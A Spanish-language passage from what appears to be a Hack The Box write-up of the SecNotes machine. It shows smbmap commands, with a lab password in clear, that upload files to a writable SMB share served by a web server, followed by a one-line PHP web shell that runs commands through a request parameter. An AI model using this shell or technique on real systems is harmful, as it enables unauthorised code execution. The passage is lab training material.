 El recurso ``new-site`` permite que el usuario tyler pueda leer y escribir, esto es una via potencial para subir archivos y ejecutarlos.

Puerto 8808.

Dentro del recuso``new-site``hay dos archivos que se pueden ver en la ruta http://10.10.10.97:8808

````bash
❯ smbmap -H 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' -r 'new-site'
[+] IP: 10.10.10.97:445	Name: secnotes.htb                                      
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	new-site                                          	READ, WRITE	
	.\new-site\*
	dr--r--r--                0 Tue Nov 22 21:53:14 2022	.
	dr--r--r--                0 Tue Nov 22 21:53:14 2022	..
	fr--r--r--              696 Thu Jun 21 22:15:36 2018	iisstart.htm
	fr--r--r--            98757 Thu Jun 21 22:15:38 2018	iisstart.png
❯ cat test.txt
`````
![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(143).png)
_Image Secnotes_

## Intrucion 

Subiendo un archivo ``.txt`` al recurso compartido, el archivo se puede leer en la ruta ``http://10.10.10.97:8808/test.txt``

````bash
❯ smbmap -H 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --upload test.txt 'new-site/test.txt'
[+] Starting upload: test.txt (5 bytes)
[+] Upload complete.
`````

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(144).png)
_Image Secnotes_

Ahora subimos un archivo ``.php`` con la funcion ``system`` para ejecutar comandos con cmd, con el comando ``whoami`` vemos al usuario tyler.

````bash
<?php
  system($_REQUEST['cmd']);
?>
`````

````bash
❯ smbmap -H 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --upload shell.php 'new-site/shell.php'
[+] Starting upload: shell.php (37 bytes)
[+] Upload complete.
`````

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(145).png)
_Image Secnotes_
